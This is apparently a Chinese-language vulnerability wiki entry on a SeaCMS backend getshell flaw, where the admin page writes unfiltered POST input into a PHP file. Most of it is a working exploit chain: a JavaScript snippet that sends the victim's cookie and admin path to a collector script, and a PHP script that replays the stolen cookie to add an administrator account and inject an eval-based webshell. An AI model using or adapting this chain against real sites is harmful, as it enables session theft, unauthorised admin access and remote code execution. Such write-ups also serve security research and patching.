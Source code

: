 seacms getshell
===============

一、漏洞简介
------------

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

二、漏洞影响
------------

三、复现过程
------------

后台代码如下

    <?php

    header('Content-Type:text/html;charset=utf-8');

    require_once(dirname(__FILE__)."/config.php");

    CheckPurview();

    if($action=="set")

    {

        $v= $_POST['v'];

        $ip = $_POST['ip'];

        $open=fopen("../data/admin/ip.php","w" );

        $str='<?php ';

        $str.='$v = "';

        $str.="$v";

        $str.='"; ';

        $str.='$ip = "';

        $str.="$ip";

        $str.='"; ';

        $str.=" ?>";

        fwrite($open,$str);

        fclose($open);

        ShowMsg("成功保存设置!","admin_ip.php");

        exit;

    }

    ?>

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

    # test.js

    var img = new Image();

    img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;

    # test.php

    <?php

        function Requests($url, $data, $cookie = '', $type = 1){

            $ch = curl_init();

            $params[CURLOPT_URL] = $url;

               $params[CURLOPT_HEADER] = FALSE;

            $params[CURLOPT_SSL_VERIFYPEER] = false;

            $params[CURLOPT_SSL_VERIFYHOST] = false;

            $params[CURLOPT_RETURNTRANSFER] = true;

            if ($type === 1) {

                $params[CURLOPT_POST] = true;

                $params[CURLOPT_POSTFIELDS] = $data;

            }

            $params[CURLOPT_COOKIE] = $cookie;

            curl_setopt_array($ch, $params);

            $output = curl_exec($ch);

            file_put_contents('log.txt', $output, FILE_APPEND);

            curl_close($ch);

        }

        $C = $_GET['x'];

        $P = $_GET['p'];

        $P = substr($P, 0, strlen($P)-21);

        file_put_contents('c.txt', $C);

        file_put_contents('p.txt', $P);

        $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

        $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

        $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';

        $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';

        Requests($url_1, $data_1, $C);

        Requests($url_2, $data_2, $C);

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![](/Users/aresx/Documents/VulWiki/.resource/Seacms后台getshell/media/rId24.png)

代码已经写进了后

![](/Users/aresx/Documents/VulWiki/.resource/Seacms后台getshell/media/rId25.png)

管理员添加成功

![](/Users/aresx/Documents/VulWiki/.resource/Seacms后台getshell/media/rId26.png)

\<
